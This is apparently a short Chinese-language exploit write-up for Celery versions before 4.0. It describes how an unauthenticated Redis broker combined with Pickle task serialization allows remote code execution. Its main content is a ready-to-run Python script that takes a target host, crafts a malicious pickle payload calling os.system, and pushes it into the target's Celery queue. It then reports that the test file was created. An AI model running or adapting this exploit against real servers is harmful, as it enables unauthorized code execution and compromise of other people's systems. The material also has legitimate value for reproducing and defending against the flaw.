


# Celery <4.0 Redis未授权访问+Pickle反序列化利用

> 漏洞说明

Celery 是一个简单、灵活且可靠的分布式系统，用于处理大量消息，同时为操作提供维护此类系统所需的工具。它是一个专注于实时处理的任务队列，同时也支持任务调度。

在Celery < 4.0版本默认使用Pickle进行任务消息的序列化传递，当所用队列服务（比如Redis、RabbitMQ、RocketMQ等等等）存在未授权访问问题时，可利用Pickle反序列化漏洞执行任意代码。


> 前提条件

版本：Celery < 4.0


> 利用工具

```python
# Celery <4.0 Redis未授权访问+Pickle反序列化利用exp
import pickle
import json
import base64
import redis
import sys
r = redis.Redis(host=sys.argv[1], port=6379, decode_responses=True,db=0) 

ori_str="{\"content-type\": \"application/x-python-serialize\", \"properties\": {\"delivery_tag\": \"16f3f59d-003c-4ef4-b1ea-6fa92dee529a\", \"reply_to\": \"9edb8565-0b59-3389-944e-a0139180a048\", \"delivery_mode\": 2, \"body_encoding\": \"base64\", \"delivery_info\": {\"routing_key\": \"celery\", \"priority\": 0, \"exchange\": \"celery\"}, \"correlation_id\": \"6e046b48-bca4-49a0-bfa7-a92847216999\"}, \"headers\": {}, \"content-encoding\": \"binary\", \"body\": \"gAJ9cQAoWAMAAABldGFxAU5YBQAAAGNob3JkcQJOWAQAAABhcmdzcQNLZEvIhnEEWAMAAAB1dGNxBYhYBAAAAHRhc2txBlgJAAAAdGFza3MuYWRkcQdYAgAAAGlkcQhYJAAAADZlMDQ2YjQ4LWJjYTQtNDlhMC1iZmE3LWE5Mjg0NzIxNjk5OXEJWAgAAABlcnJiYWNrc3EKTlgJAAAAdGltZWxpbWl0cQtOToZxDFgGAAAAa3dhcmdzcQ19cQ5YBwAAAHRhc2tzZXRxD05YBwAAAHJldHJpZXNxEEsAWAkAAABjYWxsYmFja3NxEU5YBwAAAGV4cGlyZXNxEk51Lg==\"}"
task_dict = json.loads(ori_str)
command = 'touch /tmp/tomato'
class Person(object):
    def __reduce__(self):
        # 未导入os模块，通用
        return (__import__('os').system, (command,))
pickleData = pickle.dumps(Person())
task_dict['body']=base64.b64encode(pickleData).decode()
print(task_dict)
r.lpush('celery',json.dumps(task_dict))


```


> 漏洞复现

执行攻击exp



文件成功写入



